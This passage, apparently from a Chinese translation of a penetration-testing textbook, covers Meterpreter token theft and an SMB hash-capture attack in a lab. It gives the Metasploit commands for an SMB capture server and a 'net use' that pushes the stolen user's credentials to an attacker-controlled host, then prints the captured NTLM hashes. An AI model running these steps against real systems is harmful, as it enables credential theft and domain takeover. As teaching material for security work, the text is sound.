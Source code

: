 窃取了 *secret* 的令牌后，如果我们运行 `getuid`，我们应该能看到我们实际上现在是用户 *secret*。这在域中尤为有趣：如果 *secret* 是域管理员，那么我们现在也成为了域管理员，我们可以做一些事情，比如创建新的域管理员账户或更改域管理员的密码。（我们将在 持久化 中查看如何通过命令行添加账户。）

### SMB 捕获

让我们看一下令牌窃取的另一个有趣后果。在域中，域用户的密码哈希仅存储在域控制器上，这意味着在被利用的系统上运行 hashdump 只会给我们本地用户的密码哈希。我们没有设置域，因此 *secret* 的密码哈希被存储在本地，但假设 *secret* 是域用户。让我们看看如何在不访问域控制器的情况下捕获密码哈希，通过将哈希传递给我们控制的 SMB 服务器并记录结果。

打开第二个 Msfconsole 实例，使用模块 *auxiliary/server/capture/smb* 来设置一个 SMB 服务器并捕获任何身份验证尝试。与我们在第十章中学习的客户端攻击模块类似，这个模块并不会直接攻击其他系统；它只是设置一个服务器并等待。按照示例 13-27 中所示设置模块选项。

示例 13-27. 使用 SMB 捕获模块

```
msf > **use auxiliary/server/capture/smb**
msf auxiliary(smb) > **show options**
Module options (auxiliary/server/capture/smb):
   Name        Current Setting   Required  Description
   ----        ---------------   --------  -----------
   CAINPWFILE                    no        The local filename to store the hashes in Cain&Abel
                                             format
   CHALLENGE   1122334455667788  yes       The 8 byte challenge
   JOHNPWFILE                    no        The prefix to the local filename to store the hashes
                                             in JOHN format
   SRVHOST     0.0.0.0           yes       The local host to listen on. This must be an address
                                             on the local machine or 0.0.0.0
   SRVPORT     445               yes       The local port to listen on.
   SSL         false             no        Negotiate SSL for incoming connections
   SSLCert                       no        Path to a custom SSL certificate (default is
                                             randomly generated)
   SSLVersion  SSL3              no        Specify the version of SSL that should be used
                                             (accepted: SSL2, SSL3, TLS1)
msf auxiliary(smb) > **set JOHNPWFILE /root/johnfile**❶
JOHNPWFILE => johnfile
msf auxiliary(smb) > **exploit**
```

你可以将结果保存到 *CAINPWFILE* 或 *JOHNPWFILE*，这将以 Cain and Abel 密码工具和 John the Ripper 预期的格式分别保存捕获的哈希值。我们将其设置为 *JOHNPWFILE* ❶，因为我们在第九章中学习了如何使用 John。

现在返回到你之前在 Meterpreter 会话中冒充 *secret* 的令牌，并进入 shell，如下所示。由于我们已经窃取了 *secret* 的令牌，因此这个 shell 应该以 *secret* 的身份运行。知道委派令牌包含用于与其他系统认证的凭证后，我们将使用 `net use` Windows 命令尝试与我们伪造的 SMB 捕获服务器进行身份验证。

连接到 Kali SMB 服务器上的任何共享。登录会失败，但攻击已经发生。

```
meterpreter > **shell**
C:\Documents and Settings\secret>**net use \\192.168.20.9\blah**
```

返回到你的 SMB 捕获 Msfconsole 窗口，你应该看到你已经捕获到了一组密码哈希值。

```
[*] SMB Captured - 2015-08-14 15:11:16 -0400
NTLMv1 Response Captured from 192.168.20.10:1078 – 192.168.20.10
USER:secret DOMAIN:BOOKXP OS:Windows 2002 Service Pack 3 2600 LM:Windows 2002 5.1
LMHASH:76365e2d142b5612338deca26aaee2a5d6f3460500532424
NTHASH:f2148557db0456441e57ce35d83bd0a27fb71fc8913aa21c
```
